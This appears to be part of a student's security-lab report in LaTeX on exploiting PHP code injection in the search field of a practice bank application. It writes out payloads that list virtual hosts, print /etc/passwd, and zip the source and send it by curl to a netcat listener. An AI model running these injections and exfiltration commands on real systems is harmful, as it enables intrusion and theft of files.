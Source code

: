 \documentclass[12pt]{report}
\begin{document}
	We first have to list all the virtual hosts configured on the server. With the command apache2ctl -S we can list them. So the query will be {\sf '.system(''apache2ctl -S'').'} 
	
	\begin{figure}[H]
		\texttt{[image: images/2\_4.jpg]}
		\caption{exposing virtual hosts.}
	\end{figure}
	
	Virtual hosts are maintained by the servers to host numerous websites. If the information of virtual host are exposed, then other sites are also in danger of exploiting.
	
	\paragraph*{5.}{\bf Display /etc/passwd of the web server, the bank application is running on. Try different methods to	achieve this goal. Explain why some methods cannot be successful.} \\
	
	With the command {\sf '.system("cat /etc/passwd").'} in the search field, the passwd file can be displayed. 
	
	\begin{figure}[H]
		\texttt{[image: images/2\_5.jpg]}
		\caption{displaying /etc/passwd.}
	\end{figure}
	 
	\paragraph*{6.}{\bf Show how to ''leak'' the complete source files of your web application. Briefly describe, how you accomplished this.}\\
	 
	\begin{itemize}
	 	
	 	\item[a] On the attacker's computer we use: {\sf nc -vlp 6666 > vbank.zip}
	 	\item[b] query= {\sf '.system("zip -q -r /tmp/vbank.zip ../*; curl -F 'data=@/tmp/vbank.zip;' http://0.0.0.0:6666").'}
	 	\item[c] The attacker receives the file.
	 	
	\end{itemize}
	 
	\begin{figure}[H]
	 	\texttt{[image: images/2\_6.jpg]}
	 	\caption{leaked source files.}
	\end{figure}
	
\end{document}
